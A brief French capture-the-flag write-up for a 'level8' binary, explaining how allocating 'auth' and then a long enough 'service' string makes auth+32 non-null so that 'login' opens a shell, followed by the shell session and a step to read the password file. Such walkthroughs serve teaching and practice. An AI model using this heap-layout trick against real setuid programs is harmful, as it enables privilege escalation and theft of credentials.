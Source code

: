 # Level8

Le test de l'executable ne donne rien, je n'arrive pas a voir de valeur, mais en inspectant le long code dans ghidra, nous voyons qu'un shell est lance si auth + 32 n'est pas null. Les instructions basique sont:

`auth `: alloue 4 octets
`service`: strdup le contenu qu'il y a apres
`login`: verifie si auth+32 != null

On peut donc supposer que auth et service sont a cote dans la memoire, et que si on fait auth, puis service avec un texte de 16 caracteres ou +, il va allouer auth+32, et donc auth+32 != null, et donc on aura un shell.

```bash
./level8
(nil), (nil)
auth
0x804a008, (nil)
serviceabcdefghijklmopq
0x804a008, 0x804a018
login
$
```

ensuite, plus qu'a cat le passwd
